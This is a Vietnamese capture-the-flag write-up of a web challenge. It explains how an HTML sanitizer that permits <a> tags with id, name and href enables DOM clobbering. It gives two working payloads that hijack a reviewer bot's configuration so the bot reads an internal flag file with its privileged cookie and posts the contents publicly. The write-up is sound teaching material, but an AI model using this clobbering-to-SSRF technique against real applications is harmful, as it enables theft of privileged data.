



## Description

```
Alo em có phải Vũ không? 
Ui Vũ ơi em đừng có chối, thông tin về tên địa chỉ nhà, học trường gì, ở đâu, bố mẹ tên là gì anh có cả ở đây rồi. 
Vũ có cần anh đọc cho nghe một số thông tin không? Vũ ơi em còn trẻ quá, hơn con anh có mấy tuổi à, sao Vũ lại làm thế, còn cả tương lai đằng trước, Vũ thích anh cho người đến tận nhà nói chuyện với bố mẹ em đấy
```

Link tải file: [File](https://github.com/HieuPenguinnn/CTF-writeup/blob/main/PTITCTF_Quals-2026/%C4%90%E1%BB%99%20Mixi/Web%20-%20%C4%90%E1%BB%99%20Mixi.7z)

## Phân tích file

### `src/sanitizer.py`

Sanitizer loại bỏ JavaScript (không cho `<script>`, các thuộc tính `on*`…) nhưng vẫn cho phép thẻ `<a>` cùng các thuộc tính `id`, `name`, `href`. Đây là tổ hợp then chốt để thực hiện **DOM Clobbering**:

```py
ALLOWED_TAGS có "a"
GLOBAL_ATTRIBUTES = {"class", "id", "name", "title"}
TAG_ATTRIBUTES["a"] = {"href"}
```

### `src/domclobber.py`

Sau khi lọc, HTML được chuyển thành các *named property* trên đối tượng `window`. Ngoài `id`, những thẻ có `name` cũng bị phơi ra; đặc biệt, nhiều phần tử **cùng `id`** sẽ bị gom lại thành một collection cho phép truy cập từng phần tử con theo `name`:

```
if element.id:
    keys.append(element.id)
if element.tag in NAME_EXPOSING_TAGS and element.name:
    keys.append(element.name)

window[key] = group[0] if len(group) == 1 else ClobberedCollection(group)
```

Vì vậy, nếu chèn hai thẻ cùng `id=syncConfig` thì `window.syncConfig` trở thành collection, và có thể lấy ra từng thẻ theo `name`:

```
window.syncConfig.named("statusSink")
= thẻ <a> có href /api/feedback
```

Khi thẻ `<a>` bị ép thành chuỗi, nó trả về chính giá trị `href`. Nhờ đó attacker điều khiển được các giá trị mà bot tưởng là cấu hình sao lưu (backup) hợp lệ.

### `src/bot.py`

Bot đóng vai reviewer (có cookie/token quyền cao) và tin tưởng dùng thẳng các URL đọc được từ `window.syncConfig` - vốn lại do chính message của attacker tạo ra. Đây là mấu chốt biến DOM Clobbering thành một dạng SSRF có xác thực.

Bot gắn token reviewer vào mọi request:

```py
headers = {
    "Accept": "application/json",
    "Cookie": f"{REVIEWER_COOKIE_NAME}={REVIEWER_TOKEN}",
}
```

Sau đó dùng các property bị điều khiển:

```py
status_sink = read_property(window, GADGET, "statusSink") or DEFAULT_SINK
post_text(status_sink, "... tên file flag ...")

source = read_property(window, GADGET, "source")
content = read_file(source)

read_sink = read_property(window, GADGET, "readSink") or DEFAULT_SINK
post_text(read_sink, "[Độ Mixi] Nội dung sao lưu: " + content)
```

Do đó mình chỉ cần trỏ `source` tới `/api/file` và hai sink (`statusSink`, `readSink`) tới `/api/feedback`. Bot sẽ tự đọc file nội bộ bằng cookie reviewer rồi đăng nội dung lên tường message công khai - nơi attacker có thể đọc được mà không cần bất kỳ quyền nào.

## Khai thác

### Leak tên file

Trước hết cần biết tên file flag. Ta chèn hai thẻ cùng `id=syncConfig`: thẻ đầu có `name=statusSink` (trỏ về `/api/feedback` để nhận thông báo trạng thái), thẻ thứ hai có `name=unused` chỉ nhằm ép `window.syncConfig` thành collection (cần ít nhất hai phần tử).

```
<a id="syncConfig" name="statusSink" href="/api/feedback"></a><a id="syncConfig" name="unused" href="/api/sync"></a>
```



Bot đã tự đọc thư và tiết lộ tên file thật: `flag_fb6d283b0da7acec164a38789cd7e52a.txt`

### Đọc flag

Có tên file rồi, giờ dựng payload đầy đủ với ba thẻ cùng `id=syncConfig`:

- `name=statusSink`: gửi thông báo trạng thái về `/api/feedback`.
- `name=source`: trỏ tới `/api/file?name=<tên file leak được>` để bot đọc file.
- `name=readSink`: gửi nội dung file đọc được về `/api/feedback`.

```
<a id="syncConfig" name="statusSink" href="/api/feedback"></a><a id="syncConfig" name="source" href="/api/file?name=flag_fb6d283b0da7acec164a38789cd7e52a.txt"></a><a id="syncConfig" name="readSink" href="/api/feedback"></a>
```



    [Độ Mixi] Nội dung sao lưu: PTITCTF{4nh_d0_m1x1_c4m_0n_b4n_v1_th0ng_t1n_cu4_Vu_f6b69bf473f0}

## Flag

```
PTITCTF{4nh_d0_m1x1_c4m_0n_b4n_v1_th0ng_t1n_cu4_Vu_f6b69bf473f0}
```
